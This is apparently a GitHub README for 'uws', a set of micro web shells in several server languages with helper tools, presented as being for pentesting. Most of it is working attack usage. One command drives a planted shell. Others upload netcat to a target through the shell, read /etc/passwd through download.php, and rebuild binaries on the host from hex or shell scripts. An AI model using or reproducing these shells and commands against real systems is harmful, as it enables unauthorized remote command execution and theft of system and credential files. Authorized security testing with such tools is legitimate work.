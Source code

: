 # uws (Micro Web Shells for Pentesting)

Micro web-shells for pentesting. 

## Features

* Minimalistic web-shell.
* Multiplatform.
* Source IP protection.

#### Shells 

* uws.jsp : java micro web shell, tested in linux/tomcat
* uws.php : php web shell, tested in linux/apache
* uws.asp : asp web shell, tested in winxp/iis
* uws.aspx : aspx web shell, tested in win2k3/iis
* uws.cgi : perl-cgi web shell, tested in linux/apache

#### Tools

* download.php, upload.php 
* binhex, hexbin 
* bin2sh
* wsh 

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes.

### Prerequisites

Binaries should compile/run on any Win32 or UNIX/Linux box. You only need a relatively modern C compiler.

### Installing

Download a copy of the project from github:

```
$ git clone https://github.com/joseigbv/uws.git
```

Compile tools.

```
$ gcc -Wall -O2 binhex.c -o binhex 
...
```

### Usage

Select web-shell and edit "REMOTEIP" to limit access.

It may be necessary to adapt the commands according to the target technology (linux or windows) (uuencode, uudecode, cmd, sh, cat, ...)

For Apache Tomcat build .WAR using genwar.sh 

#### Tools

wsh.sh: "client" for remote web shell with history

```
$ ./wsh.sh http://localhost:8080/uws.jsp

wsh> pwd
/opt/apache-tomcat-6.0.35/bin
wsh> 
```

upload_b64.sh: files upload using micro web shell and base64 encoding.

```
$ ./upload_b64.sh http://localhost:8080/uws.jsp /bin/nc /tmp/ncx

Uploading file...................................... done!
```

download_b64.sh: download files using micro web shell and base64 encoding.

```
$ ./download_b64.sh http://localhost:8080/hoolista/hoolista.jsp /bin/nc /tmp/nc
```

upload.php: text/binary files upload. 

```
$ curl -F file=@/bin/lss http://localhost/upload.php
```

download.php: text/binary files download.

```
$ curl http://localhost/download.php?file=/etc/passwd
```

binhex: converts binary file to text file with hexadecimal representation of bytes.

```
$ ./binhex < /bin/nc > nc.hex 
```

hexbin: convert text file with hexadecimal representation of bytes to binary file.

```
$ ./hexbin < nc.hex > /bin/nc 
```

bin2sh: converts binary to shell script, when executed it regenerates binary; useful to upload line by line.

```
$ ./bin2sh < /bin/nc > nc.sh 
$ ./nc.sh > /bin/nc
```

## Authors

* **José Ignacio Bravo** - *Initial work* - nacho.bravo@gmail.com

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details


